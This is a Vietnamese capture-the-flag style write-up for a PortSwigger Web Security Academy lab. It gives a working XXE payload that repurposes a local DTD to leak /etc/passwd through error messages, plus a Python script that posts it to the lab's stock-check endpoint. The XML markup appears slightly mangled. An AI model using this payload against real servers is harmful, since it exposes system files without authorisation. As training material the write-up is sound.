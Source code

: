 mình dùng payload này

```xml 
< DOCTYPE foo [
< ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
< ENTITY % ISOamso '
< ENTITY &#x25; file SYSTEM "file:///etc/passwd">
< ENTITY &#x25; eval "< ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```

- Parameter entity local_dtd chứa nội dung tệp `/usr/share/yelp/dtd/docbookx.dtd` là local DTD trên server.
- Parameter entity `ISOamso` chứa định nghĩa: parameter entity file chứa nội dung tệp `/etc/passwd`, parameter entity eval chứa định nghĩa parameter entity error chứa nội dung `/etc/passwd` sau khi tham chiếu tới `%file;`

 [image](https://hackmd.io/_uploads/HkXpX_lha.png)

mình đã viết script khai thác

```python
# /usr/bin/python3.7
import requests
import re
from bs4 import BeautifulSoup
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
from urllib.parse import quote

url = 'https://0aa500c803061455847b5bb5006f00c6.web-security-academy.net'

session=requests.Session()

data = '<?xml version="1.0" encoding="UTF-8"?>< DOCTYPE foo [\r\n< ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">\r\n< ENTITY % ISOamso \'\r\n< ENTITY &#x25; file SYSTEM "file:///etc/passwd">\r\n< ENTITY &#x25; eval "< ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">\r\n&#x25;eval;\r\n&#x25;error;\r\n\'>\r\n%local_dtd;\r\n]><stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>'



response= session.post(
    url + '/product/stock',
    data=data,
    verify=False,
)

print(response.text)
```
